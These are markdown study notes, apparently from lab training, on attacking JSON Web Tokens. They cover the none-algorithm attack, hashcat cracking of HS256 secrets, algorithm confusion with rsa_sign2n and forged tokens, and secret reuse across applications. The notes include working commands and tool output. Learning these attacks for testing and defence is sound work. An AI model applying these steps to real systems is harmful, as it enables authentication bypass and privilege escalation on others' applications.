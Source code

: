 # JWTs
- [Overview](#overview)
- [Attacks on JWTs](#attacks-on-jwts)
    - [Attacking Signature Verification](#attacking-signature-verification)
    - [Attacking the Signing Secret](#attacking-the-signing-secret)
    - [Algorithm Confusion](#algorithm-confusion)
    - [Reusing JWT Secrets](#reusing-jwt-secrets)



## Overview
- A JWT can either utilize JSON Web Signature (JWS) or JSON Web Encryption (JWE) for protection of the data contained within the JWT
- Two additional standards comprise JWTs. These are JSON Web Key (JWK) and JSON Web Algorithm (JWA). While JWK defines a JSON data structure for cryptographic keys, JWA defines cryptographic algorithms for JWTs.
## Attacks on JWTs
## Attacking Signature Verification
- **Missing Signature Verification**
    - We can simply manipulate that parameter in the payload, and jwt.io will automatically re-encode the JWT on the left side. This will invalidate the JWT's signature.

    - Before accepting a JWT, the web application must verify the JWT's signature to ensure it has not been tampered with. If the web application is misconfigured to accept JWTs without verifying their signature, we can manipulate our JWT to escalate privileges.

- **None Algorithm Attack**
    - To forge a JWT with the none algorithm, we must set the alg-claim in the JWT's header to none. We can achieve this using [CyberChef](https://cyberchef.io/) by selecting the JWT Sign operation and setting the Signing algorithm to None.

## Attacking the Signing Secret

> [!NOTE] JWT supports three symmetric algorithms based on potentially guessable secrets: HS256, HS384, and HS512.

- **Cracking the Secret**
    - We will use hashcat to brute-force the JWT's secret. Hashcat's mode 16500 is for JWTs. To brute-force the secret. Save the JWT to a file: `echo -n eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsImV4cCI6MTcxMTIwNDYzN30.r_rYB0tvuiA2scNQrmzBaMAG2rkGdMu9cGMEEl3WTW0 > jwt.txt`
   
    ```bash
    hashcat -m 16500 jwt.txt /SecLists/Passwords/Leaked-Databases/rockyou.txt

    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 0 (JWT (JSON Web Token))
    Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaH...l3WTW0
    Time.Started.....: Sat Mar 23 15:24:17 2024 (2 secs)
    Time.Estimated...: Sat Mar 23 15:24:19 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/SecLists/Passwords/Leaked-Databases/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:  3475.1 kH/s (0.50ms) @ Accel:512 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 4358144/14344384 (30.38%)
    Rejected.........: 0/4358144 (0.00%)
    Restore.Point....: 4354048/14344384 (30.35%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: rb270990 -> raynerleow
    Hardware.Mon.#1..: Util: 52%

    # To show the secret
    hashcat -m 16500 jwt.txt /SecLists/Passwords/Leaked-Databases/rockyou.txt --show
    ```
    - Now that we have successfully brute-forced the JWT's signing secret, we can forge valid JWTs. After manipulating the JWT's body, we can paste the signing secret into jwt.io. The site will then compute a valid signature for our manipulated JWT.


## Algorithm Confusion
- Algorithm confusion is a JWT attack that forces the web application to use a different algorithm to verify the JWT's signature than the one used to create it.

> [!IMPORTANT]
> This attack only works if the web application uses the algorithm specified in the alg-claim of the JWT to determine the algorithm for signature verification

- While this public key is often provided by the web application, there are cases where we cannot obtain it directly. However, since the key is not meant to be kept private, it can be computed from the JWTs themselves.

- To achieve this, we will use [rsa_sign2n](https://github.com/silentsignal/rsa_sign2n). The tool comes with a docker container we can use to compute the public key used to sign the JWTs.

```bash
# We can build the docker container like so:
git clone https://github.com/silentsignal/rsa_sign2n

cd rsa_sign2n/standalone/

docker build . -t sig2n

# Now we can run the docker container:
docker run -it sig2n /bin/bash
```
- We must provide the tool with two different JWTs signed with the same public key to run it. We can obtain multiple JWTs by sending the login request multiple times in Burp Repeater. Afterward, we can run the script in the docker container with the captured JWTs:
```bash
python3 jwt_forgery.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsImV4cCI6MTcxMTI3MTkyOX0.<SNIP> eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbiI6ZmFsc2UsImV4cCI6MTcxMTI3MTk0Mn0.<SNIP>

[*] GCD:  0x1
[*] GCD:  0xb196 <SNIP>
[+] Found n with multiplier 1  :
 0xb196 <SNIP>
[+] Written to b1969268f0e66b1c_65537_x509.pem
[+] Tampered JWT: b'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjogImh0Yi1zdGRudCIsICJpc0FkbWluIjogZmFsc2UsICJleHAiOiAxNzExMzU2NTczfQ.Dq6bu6oNyTKStTD6YycB9EzmXoTiMJ9aKu_nNMLx7RM'
[+] Written to b1969268f0e66b1c_65537_pkcs1.pem
[+] Tampered JWT: b'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjogImh0Yi1zdGRudCIsICJpc0FkbWluIjogZmFsc2UsICJleHAiOiAxNzExMzU2NTczfQ.vFrCp8X_-Te6ENlAi4-a_xitEaOSfEzQIbQbzXpWnVE'
================================================================================
Here are your JWT's once again for your copypasting pleasure
================================================================================
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjogImh0Yi1zdGRudCIsICJpc0FkbWluIjogZmFsc2UsICJleHAiOiAxNzExMzU2NTczfQ.Dq6bu6oNyTKStTD6YycB9EzmXoTiMJ9aKu_nNMLx7RM
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjogImh0Yi1zdGRudCIsICJpc0FkbWluIjogZmFsc2UsICJleHAiOiAxNzExMzU2NTczfQ.vFrCp8X_-Te6ENlAi4-a_xitEaOSfEzQIbQbzXpWnVE
```

> [!IMPORTANT]
> The tool may compute multiple public key candidates. To reduce the number of candidates, we can rerun it with different JWTs captured from the web application.

- Additionally, the tool automatically creates symmetric JWTs signed with the computed public key in different formats. We can use these JWTs to test for an algorithm confusion vulnerability.
- Furthermore, if we send this token to the web application, it is accepted. Thus proving that the web application is vulnerable to algorithm confusion.

- **Forging a Token**
    1. rsa_sign2n conveniently saves the public key to a file within the docker container:
    ```bash
    cat b1969268f0e66b1c_65537_x509.pem

    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsZaSaPDmaxyds/NMppno
    dUEWomQEdu+p57T4B7tjCZp0nRQk1HnOR8LuTztHn6U4ZKEHvHWGF7PxHHgtxrTb
    7uhbwhsu3XVTcd1c/S2G9TCvW4WaF8uqNjgzUJEANsABGXHSVCuM7CLf2jWjVyWX
    6w4dbyK3LNHvt/tkJspeGwx3wT1Gq2RpQ6n0+J/q6vxKBAc4z9QuzfgLPpnZFdYj
    kZyJimyFmiyPDP6k2MZYr6rgiuUhCQQlFBL8yS94dITAoZhGIJDtNW9WDV7gOB8t
    OgPrAdBM2rm8SmlNjsaHxIDec2E+qafCm8VnwSLXHXb9IDvLSTCqI+gOSJEGgTuT
    VQIDAQAB
    -----END PUBLIC KEY-----
    ```
    2. We can use CyberChef to forge our JWT by selecting the JWT Sign operation. We must set the Signing algorithm to HS256 and paste the public key into the Private/Secret key field. Additionally, we need to add a newline (\n) at the end of the public key:
    ![jwt-algconfution](/images/jwt_algconfusion.jpg)


## Reusing JWT Secrets
- Context: JSON Web Tokens (JWTs) are widely used for authentication in web applications.

- Best Practice: Each web application should have a unique JWT signing secret.

- Risk: If multiple applications share the same secret, a token from one app can potentially be used on another (token reuse).

- **🛑 Why It’s a Problem**
    - Cross-application access: A token valid on App A may also be accepted by App B if both use the same secret.

    - Privilege escalation: If the reused token contains elevated privileges, this could bypass role-based access controls in another application.

- **🔍 Example Scenario**
    - A company operates two apps:

        - socialA.htb (user is a moderator)

        - socialB.htb (user is a regular user)

    - JWT from socialA.htb contains:
        - {"role": "moderator"}

    - JWT from socialB.htb contains:
        - {"role": "user"}

    - Issue: If both apps use the same secret, the user can:

        - Take the moderator token from socialA and present it to socialB then gain unauthorized moderator access on socialB